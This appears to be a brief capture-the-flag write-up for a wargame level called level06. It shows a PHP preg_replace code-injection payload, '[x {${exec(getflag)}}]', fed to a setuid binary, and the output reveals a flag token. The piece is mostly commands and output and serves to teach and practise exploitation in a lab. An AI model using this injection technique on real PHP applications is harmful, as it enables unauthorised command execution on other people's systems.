 https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4

nano /tmp/test.php
> [x {${exec(getflag)}}]

./level06 test.php # Because level06 execute level06.php
> PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
> PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1


The pattern (\[x (.*)\]) matches [ x {${exec(getflag)}}].

